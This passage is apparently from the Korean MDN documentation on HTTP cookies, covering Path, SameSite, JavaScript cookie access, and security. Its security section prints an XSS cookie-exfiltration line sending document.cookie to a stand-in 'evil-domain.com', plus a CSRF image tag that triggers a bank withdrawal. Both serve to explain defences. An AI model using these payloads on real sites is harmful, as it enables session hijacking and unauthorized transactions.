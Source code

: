 만약 `Path=/docs`이 설정되면, 다음의 경로들은 모두 매치될 것입니다:

- `/docs`
- `/docs/Web/`
- `/docs/Web/HTTP`

### `SameSite` 쿠키 {{experimental_inline}}

`SameSite` 쿠키는 쿠키가 cross-site 요청과 함께 전송되지 않았음을 요구하게 만들어, cross-site 요청 위조 공격({{Glossary("CSRF")}})에 대해 어떤 보호 방법을 제공합니다. `SameSite` 쿠키는 여전히 실험 중이며 모든 브라우저에 의해 아직 제공되지 않고 있습니다.

### `Document.cookie`를 사용한 JavaScript 접근

새로운 쿠키들은 {{domxref("Document.cookie")}}를 사용해 만들어질 수도 있으며, `HttpOnly` 플래그가 설정되지 않은 경우 기본의 쿠키들은 JavaScript로부터 잘 접근될 수 있습니다.

```js
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

아래 [보안](/ko/docs/Web/HTTP/Cookies#Security) 섹션에서 다루고 있는데로 보안 관련 내용들을 잘 알아두시기 바랍니다. JavaScript에서 이용 가능한 쿠키들은 XSS를 통해 감청될 수 있습니다.

## 보안

> **참고:** 기밀 혹은 민감한 정보는 전체 메커니즘이 본질적으로 위험하기 때문에 HTTP 쿠키 내에 저장되거나 전송되어서는 안됩니다.

### 세션 하이재킹과 XSS

쿠키는 대개 웹 애플리케이션에서 사용자와 그들의 인증된 세션을 식별하기 위해 사용되곤 합니다. 그래서 쿠키를 가로채는 것은 인증된 사용자의 세션 하이재킹으로 이어질 수 있습니다. 쿠키를 가로채는 일반적인 방법은 소셜 공학 사용 혹은 애플리케이션 내 {{Glossary("XSS")}} 취약점을 이용하는 것을 포함합니다.

```js
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 쿠키 속성은 JavaScript를 통해 쿠키 값에 접근하는 것을 막아 이런 공격을 누그러뜨리는데 도움을 줄 수 있습니다.

### Cross-site 요청 위조 (CSRF)

[위키피디아](https://en.wikipedia.org/wiki/HTTP_cookie#Cross-site_request_forgery)에 {{Glossary("CSRF")}}에 대한 좋은 예제가 있습니다. 위키피디아의 예와 같은 상황에서, 당신의 은행 서버에 돈을 입금하는 실제 요청 대신에, 실제로는 이미지가 아닌 이미지를 포함시키고 있습니다(예를 들어 필터링되지 않은 채팅이나 포럼 페이지 내에):

```html
<img
  src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory" />
```

이제, 당신이 당신의 은행 계좌에 로그인하고 당신의 쿠키가 여전히 유효하다면(그리고 별 다른 검증 절차가 존재하지 않는다면), 해당 이미지를 포함하고 있는 HTML을 로드하자마자 돈이 송금될 것입니다. 이런 일들이 벌어지는 것을 방지하기 위한 몇 가지 기술이 있습니다:
